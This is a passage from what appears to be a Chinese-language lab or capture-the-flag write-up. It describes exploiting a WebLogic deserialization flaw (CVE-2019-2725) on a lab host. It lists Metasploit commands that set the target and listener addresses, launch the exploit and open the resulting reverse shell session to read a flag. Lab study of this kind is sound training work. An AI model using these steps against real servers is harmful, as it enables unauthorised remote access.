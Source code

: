 ### 攻破2、3、4靶标
* 由于我们处于上帝视角，我们直到第二层主机存在weblogic漏洞，所以我们直接通过exploit进行攻击
*  搜索weblogic漏洞：
```bash
search cve-2019-2725
use exploit/multi/weblogic/weblogic_deserialization_asyncresponseservice ## 选择weblogic_deserialization_asyncresponseservice这个exp
show options ## 查看参数
set RHOSTS 192.170.84.2 ## 攻击目标
set lport 7001
set lhost 192.168.70.7
run -j
```
![](./images/该第三个靶机启用参数.png)
![](./images/启用wda获得第三个反弹shell.png)
```bash
sessions -i 3

ls /tem ## 查看flag
```
